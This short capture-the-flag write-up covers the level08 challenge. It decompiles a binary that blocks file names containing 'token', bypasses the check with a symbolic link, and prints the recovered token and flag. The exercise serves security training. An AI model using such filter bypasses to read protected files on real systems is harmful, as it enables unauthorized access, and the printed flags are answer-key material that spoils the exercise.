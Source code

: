 # First step

We have a executable file called `level08` and a no permission file called token.

```shell
$> ./level08
./level08 [file to read]

$> ./level08 token
You may not access 'token'
```

With Ghidra.

```c
[...]
if (argc == 1) {
    printf("%s [file to read]\n",*argv);
    [...]
    exit(1);
}
[...]
pcVar1 = strstr(argv[1], "token");
if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",argv[1])
    [...]
    exit(1);
}
[...]
```

We can create a link to the token file and rename it.  

# Second step

```shell
$> ln -s ~/token /tmp/tk

$> ./level08 /tmp/tk
quif5eloekouj29ke0vouxean

$> su flag08
Don't forget to launch getflag !

$> getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
